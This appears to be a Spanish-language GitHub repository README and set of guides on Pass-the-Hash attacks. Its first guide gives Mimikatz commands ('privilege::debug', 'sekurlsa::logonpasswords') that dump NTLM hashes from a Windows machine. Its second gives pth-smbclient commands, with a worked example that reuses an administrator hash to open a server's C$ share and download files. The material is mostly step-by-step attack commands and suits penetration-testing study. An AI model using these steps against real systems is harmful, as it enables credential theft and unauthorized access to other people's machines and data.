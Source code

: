 # Pass The Hash con SMBClient

Este repositorio explica cómo utilizar **Pass The Hash (PtH)** para acceder a recursos compartidos SMB en un servidor Windows, extrayendo el hash NTLM desde un equipo Windows y utilizando `pth-smbclient` en una máquina Kali Linux.

## Requisitos
- Acceso a un equipo Windows con privilegios de administrador.
- Una máquina Kali Linux con `pth-toolkit` instalado.
- Conocimientos básicos de PowerShell y Linux.

## Scripts
- [Script de PowerShell para extraer hashes con Mimikatz](Scripts/mimikatz-extract-hash.ps1)
- [Script de ejemplo para usar pth-smbclient](Scripts/pth-smbclient-example.sh)

## Contribuciones
Si encuentras algún error o tienes sugerencias, ¡no dudes en abrir un issue o enviar un pull request!

---

### **2. extract-hash-windows.md**
Guía detallada para extraer el hash NTLM en Windows usando Mimikatz.


# Extraer el hash NTLM en Windows

## Requisitos
- Privilegios de administrador en el equipo Windows.
- Herramienta [Mimikatz](https://github.com/gentilkiwi/mimikatz).

## Pasos

1. **Descargar Mimikatz:**
   - Descarga Mimikatz desde su [repositorio oficial](https://github.com/gentilkiwi/mimikatz).

2. **Ejecutar Mimikatz como administrador:**
   - Abre una ventana de PowerShell como administrador.
   - Navega a la carpeta donde descargaste Mimikatz y ejecuta:
     ```powershell
     .\mimikatz.exe
     ```

3. **Extraer hashes NTLM:**
   - Dentro de Mimikatz, ejecuta los siguientes comandos:
     ```bash
     privilege::debug
     sekurlsa::logonpasswords
     ```
   - Busca el hash NTLM del usuario administrador en la salida. Ejemplo:
     ```
     NTLM Hash: 32ED87BDB5FDC5E9CBA88547376818D4
     ```

4. **Guardar el hash:**
   - Anota el hash NTLM para usarlo en Kali Linux.


![imagen](https://github.com/90l3m0np13/PassTheHash/blob/main/Imagenes/mimikatz.png)


---

### **3. pth-smbclient-kali.md**
Guía para usar `pth-smbclient` en Kali Linux.


# Usar pth-smbclient en Kali Linux

## Requisitos
- Hash NTLM del usuario administrador.
- Herramienta `pth-toolkit` instalada en Kali Linux.

## Pasos

1. **Instalar pth-toolkit:**
   - Abre una terminal en Kali Linux y ejecuta:
     ```bash
     sudo apt update
     sudo apt install pth-toolkit
     ```

2. **Autenticarse con pth-smbclient:**
   - Usa el siguiente comando para acceder al servidor:
     ```bash
     pth-smbclient //IPDelServidor/RecursoCompartido -U Usuario%HashNTLM
     ```
   - Ejemplo:
     ```bash
     pth-smbclient //192.168.1.10/C$ -U Administrador%32ED87BDB5FDC5E9CBA88547376818D4
     ```

3. **Navegar por los archivos:**
   - Usa comandos como `ls`, `cd`, y `get` para explorar y descargar archivos.

## Ejemplo de salida de pth-smbclient
![imagen](https://github.com/90l3m0np13/PassTheHash/blob/main/Imagenes/pth-smbclient.png)


